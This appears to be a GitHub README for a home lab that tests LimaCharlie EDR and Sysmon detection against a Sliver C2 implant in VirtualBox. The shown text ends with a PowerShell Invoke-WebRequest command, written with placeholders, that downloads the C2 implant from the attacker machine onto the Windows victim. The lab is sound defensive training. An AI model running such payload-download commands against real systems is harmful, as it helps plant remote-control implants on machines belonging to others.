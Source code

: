 # LimaCharlie-EDR-Lab
![Architecture](https://i.imgur.com/6mftsEk.jpg)

## Introduction

I simulated a real-life cyber attack scenario and tested the effectiveness of my security measures. I created two virtual machines on a NatNetwork: an Ubuntu Server acting as the attacker, and a Windows 11 machine as the victim.

To enhance the security of the victim machine, I installed LimaCharlie sensor and Sysmon, which helped me detect any potential attacks or security events. On the Ubuntu Server, I installed Silver C2, a command and control attack tool for Windows machines.

To test my security measures, I executed the C2 attack and created detection rules to alert administrators of any suspicious activity. This lab project aimed to demonstrate the importance of having robust security measures in place to protect against cyber attacks.


The architecture of the project consists of the following components:


- Virtual Box NatNetwork
- Virtual Machines (1 windows, 1 linux)
- LimaCharlieEDR
- Silver C2 Server

## Labbing

After environment is set up I created a implant on the Ubuntu server to install on to the Windows System

![Implant](https://i.imgur.com/LEP0qSk.png)

Next I created quick websever on the Ubuntu machine for the C2 Payload to be installed from, then I ran this command on the Windows device.

![IWR](https://i.imgur.com/dadsDeX.png)

IWR -Uri http://[IpAddress]/[ImplantName] -Outfile [FileLocation]

